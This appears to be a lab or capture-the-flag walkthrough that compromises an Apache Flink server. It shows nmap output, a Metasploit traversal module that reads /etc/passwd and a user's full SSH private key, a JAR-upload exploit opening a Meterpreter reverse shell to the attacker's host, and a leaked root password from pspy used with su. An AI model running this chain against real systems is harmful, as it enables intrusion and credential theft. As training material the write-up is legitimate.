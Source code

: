 
## NMAP
```
PORT      STATE SERVICE          VERSION
22/tcp    open  ssh              OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5235c4ed48071617204a8418f62e553e (ECDSA)
|_  256 083d05a173d61fdf262c8538e869c8ce (ED25519)
6123/tcp  open  spark            Apache Spark
8081/tcp  open  blackice-icecap?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=UTF-8
|     content-length: 74
|     {"errors":["Unable to load requested file /nice ports,/Trinity.txt.bak."]}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Mon, 03 Apr 2023 20:28:30 GMT
|     Expires: Mon, 03 Apr 2023 20:33:30 GMT
|     Cache-Control: private, max-age=300
|     Last-Modified: Mon, 03 Apr 2023 20:28:30 GMT
|     content-length: 2137
|     <!--
|     Licensed to the Apache Software Foundation (ASF) under one
|     more contributor license agreements. See the NOTICE file
|     distributed with this work for additional information
|     regarding copyright ownership. The ASF licenses this file
|     under the Apache License, Version 2.0 (the
|     "License"); you may not use this file except in compliance
|     with the License. You may obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, software
|     distributed under the License is distributed on an "AS IS" BASIS,
|     WITHOUT WARRANTIES OR CONDITIONS OF
|   SIPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=UTF-8
|     Access-Control-Allow-Origin: *
|     Connection: keep-alive
|     content-length: 25
|     {"errors":["Not found."]}
|   WWWOFFLEctrlstat: 
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=UTF-8
|     content-length: 58
|_    {"errors":["Unable to load requested file /bad-request."]}
32779/tcp open  spark            Apache Spark
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8081-TCP:V=7.93%I=7%D=4/3%Time=642B3715%P=x86_64-pc-linux-gnu%r(Get
SF:Request,93B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDa
SF:te:\x20Mon,\x2003\x20Apr\x202023\x2020:28:30\x20GMT\r\nExpires:\x20Mon,
SF:\x2003\x20Apr\x202023\x2020:33:30\x20GMT\r\nCache-Control:\x20private,\
SF:x20max-age=300\r\nLast-Modified:\x20Mon,\x2003\x20Apr\x202023\x2020:28:
SF:30\x20GMT\r\ncontent-length:\x202137\r\n\r\n<!--\n\x20\x20~\x20Licensed
SF:\x20to\x20the\x20Apache\x20Software\x20Foundation\x20\(ASF\)\x20under\x
SF:20one\n\x20\x20~\x20or\x20more\x20contributor\x20license\x20agreements\
SF:.\x20\x20See\x20the\x20NOTICE\x20file\n\x20\x20~\x20distributed\x20with
SF:\x20this\x20work\x20for\x20additional\x20information\n\x20\x20~\x20rega
SF:rding\x20copyright\x20ownership\.\x20\x20The\x20ASF\x20licenses\x20this
SF:\x20file\n\x20\x20~\x20to\x20you\x20under\x20the\x20Apache\x20License,\
SF:x20Version\x202\.0\x20\(the\n\x20\x20~\x20\"License\"\);\x20you\x20may\
SF:x20not\x20use\x20this\x20file\x20except\x20in\x20compliance\n\x20\x20~\
SF:x20with\x20the\x20License\.\x20\x20You\x20may\x20obtain\x20a\x20copy\x2
SF:0of\x20the\x20License\x20at\n\x20\x20~\n\x20\x20~\x20\x20\x20\x20\x20ht
SF:tp://www\.apache\.org/licenses/LICENSE-2\.0\n\x20\x20~\n\x20\x20~\x20Un
SF:less\x20required\x20by\x20applicable\x20law\x20or\x20agreed\x20to\x20in
SF:\x20writing,\x20software\n\x20\x20~\x20distributed\x20under\x20the\x20L
SF:icense\x20is\x20distributed\x20on\x20an\x20\"AS\x20IS\"\x20BASIS,\n\x20
SF:\x20~\x20WITHOUT\x20WARRANTIES\x20OR\x20CONDITIONS\x20OF")%r(FourOhFour
SF:Request,A7,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20applic
SF:ation/json;\x20charset=UTF-8\r\ncontent-length:\x2074\r\n\r\n{\"errors\
SF:":\[\"Unable\x20to\x20load\x20requested\x20file\x20/nice\x20ports,/Trin
SF:ity\.txt\.bak\.\"\]}")%r(SIPOptions,AE,"HTTP/1\.1\x20404\x20Not\x20Foun
SF:d\r\nContent-Type:\x20application/json;\x20charset=UTF-8\r\nAccess-Cont
SF:rol-Allow-Origin:\x20\*\r\nConnection:\x20keep-alive\r\ncontent-length:
SF:\x2025\r\n\r\n{\"errors\":\[\"Not\x20found\.\"\]}")%r(WWWOFFLEctrlstat,
SF:97,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20application/js
SF:on;\x20charset=UTF-8\r\ncontent-length:\x2058\r\n\r\n{\"errors\":\[\"Un
SF:able\x20to\x20load\x20requested\x20file\x20/bad-request\.\"\]}");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.53 seconds
```
```
Its running Apache Flink Dashboad

It is vulnerable to directory traversal

```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > exploit

[*] Downloading /etc/passwd ...
[+] Downloaded /etc/passwd (1882 bytes)
[+] File /etc/passwd saved in: /home/p3ta/.msf4/loot/20230414100948_default_10.10.110.78_apache.flink.job_444299.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
```
cat /home/p3ta/.msf4/loot/20230414100948_default_10.10.110.78_apache.flink.job_444299.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ipp:x:1000:1000:ipp:/home/ipp:/bin/bash
systemd-timesync:x:111:114:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
tss:x:112:115:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:113:118::/nonexistent:/usr/sbin/nologin
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```
There is a user named IPP
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > set filepath /home/ipp/.ssh/id_rsa
```
```rust
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAphPpQ/YdCr078HWolkIcvv2c+S47RxE04FYZrLmC5ob0pubS
KgQt1Io+IipCLWNaGL6sI0oBM+g1QjffuT6kHkCR30Dx3rzbx58k2fd7+VlP7xEt
JQKIFWp+YvzTkVFY6Y2I2IYd3rxCVAp6ycttTmkFSBNagGRCZLCgLrn3kuc+gmwY
i36XuusZaQi+XTZAeLakHQi0EU4j69ajW4U9cXcFRWZYasG0uBqQZQs0UStVWoqh
5F6gLHhBBlDjRlIZRyYu5KZ0EFwXugRyjvboCN1w4SIVx1rz89l3lPYYgkmvTVtf
bGy3g27tgR91Fm64iODTZZs56ywyrLHsPxqRKwIDAQABAoIBABDFTfb48XHWLilY
GFAkGPcIcUOQcZf5mtdUmn8gtKFG24nHIU3w4hfmZePZVJl0wPJivstJe9mcB1TK
g6MXOkd7yb87tbECbUc5QOVp4nEJndLMbzyfhtJy0JR6Z3rzNgFPs5P55yZI6IHI
FSIvkrgqTsg6fBcfCL1WQLa3PNLusW0Z7mWZ4gUKsrQuwJPIq5Pbcz2DyLD28v/P
dzv0TUCANNv+tBaBikpkLXfgzt36NiV5jXRC/uR9vYtQneCzr1cLY8jzTJ2r9kCm
p+hASQfL4VKkJbZnOfVOAF71y9pxG67ojfGX0IeeCRh2wZ2CP5mnNbGiX6d2/wvf
hkJOE3ECgYEA1M1v41DeXE0EykmBQbSePXGxLykKxpLv6vAs3DQzdiySZDaPJRCH
0aW23oV1aIX66Hjo4Bz5zeSZOs0N1HBa91Y7QMtWqy3mTvaDpAEEA7cIfH+Yyd8U
LKUUzudaK5MmH8Dmwszg5eoT/efwUKlDhZKzKtsRBEc4HN0vBKNJQx8CgYEAx8pc
2x39eKqabJCoVmttaJZC145LhD+jnsQFGvZJw16tLu/pYMvP3dBNQ7QsPeBYawlo
tAPgLG44OXnHJpz25hwi6PrJunULQYGhbuWErMTCuwiWW4OC4IIQBlRmqscudt5g
J5CL9/5y+AMGXjUpdELkkux7JqNPM3wq28dInHUCgYEAxIw24prHtjLA0OHRS9G6
MgA3adqbhEsk4zcQCBcCzQxf7cVisxYwjBdl7uMPTQoqc9txI8Y/h8azLFdGhcd8
jWQM+EyW8SZEyPvxHGJ/xbqhUPQ9N38eUBntPSj75LFVjhCKUrQOqOxpqKM4GBgu
MEoNx/BsKCprjmVQTxVNznsCgYBMeNOz9zW3Ay4akgAtG++D0cgB8/BJzYYWVhdS
K6UuR8XoKmJc74Y/8+QvHv60LHQLfE18YeNjfki9DzTAPeJvT6O5I40ldnl5eGHP
LcDr1GBo8K+ElcD5qC70DUhC4/yP+Sw62KQKp3VgIuBEHPsiChytdCDrOCUvor5Q
42WSpQKBgQCa9Gwgybgx0Un79JUqKMgCt4wb/wnCxZwvEbiFsGfZfqPwTpEou7/C
6zN9Il1gw2PhpxE4koi4hSW/pzwJiy4NCihneGDfHAdCQ2RyOhgAn5oCU1vebVnz
cBhB9sbGfBW4w9qYeoKX2evM+IGWbTpyJ1CeeLrKMq0gI4J3LDvoPQ==
-----END RSA PRIVATE KEY-----
```
Or

## MSFConsole
```
msf6 exploit(multi/http/apache_flink_jar_upload_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache Flink version 1.11.0.
[*] Uploading JAR payload 'hwMnTbljdoPp.jar' (5265 bytes) ...
[*] Retrieving list of avialable JAR files ...
[+] Found uploaded JAR file '452afaab-0dc3-4344-b98d-cdb1142616ed_hwMnTbljdoPp.jar'
[*] Executing JAR payload '452afaab-0dc3-4344-b98d-cdb1142616ed_hwMnTbljdoPp.jar' entry class 'metasploit.Payload' ...
[*] Sending stage (58829 bytes) to 10.10.110.78
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.110.78:59990) at 2023-04-03 13:34:30 -0700
[*] Removing JAR file '452afaab-0dc3-4344-b98d-cdb1142616ed_hwMnTbljdoPp.jar' ...

meterpreter > 
```
Changed over to a tty shell
```
meterpreter > shell
Process 1 created.
Channel 2 created.
whoami
ipp
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
python3 -c 'import pty; pty.spawn("/bin/bash")'
ipp@WEB03-Hestia:~$ whoami
whoami
ipp
ipp@WEB03-Hestia:~$ id
id
uid=1000(ipp) gid=1000(ipp) groups=1000(ipp)
ipp@WEB03-Hestia:~$ 
```
download and run pspy32

```
pp@WEB03-Hestia:/tmp$ ./pspy32s
```
```
/bin/sh -c python3 /root/script.py -u root -p P455w0rd666! 2>&1 
```
```
meterpreter > shell
Process 3 created.
Channel 11 created.
su -
Password: P455w0rd666!
whoami
root
```


